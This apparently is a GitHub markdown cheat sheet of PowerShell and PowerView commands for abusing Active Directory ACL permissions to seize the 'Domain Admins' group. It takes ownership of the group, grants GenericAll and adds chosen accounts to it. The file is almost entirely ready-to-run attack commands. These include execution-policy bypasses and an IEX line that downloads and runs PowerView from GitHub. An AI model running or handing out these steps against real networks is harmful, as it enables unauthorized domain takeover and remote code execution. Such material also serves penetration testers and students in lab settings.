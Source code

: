 #### Power view cheet
-----------------------------------------------------------------------
# Commands
>powershell -ep bypass
>Import-Module .\PowerView.ps1\ 
>Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'
>Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"
>net group "domain admins" goodboy /add /domain

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
>Import-Module ActiveDirectory

# Now try the command again
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

--------------------------------------------------------------------------------------------------------
>$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
>$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
>New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
>$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
>$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))
>$group.psbase.CommitChanges()

# 2. Add self to group
>$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

>Get-Command -Module PowerView
(If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
>Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
>Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
>$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
>$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

>IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
. or downloade the script and run by import

>powershell -ep bypass
>Import-Module .\powerview.ps1

>Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

>Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
>Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
>Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
>Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose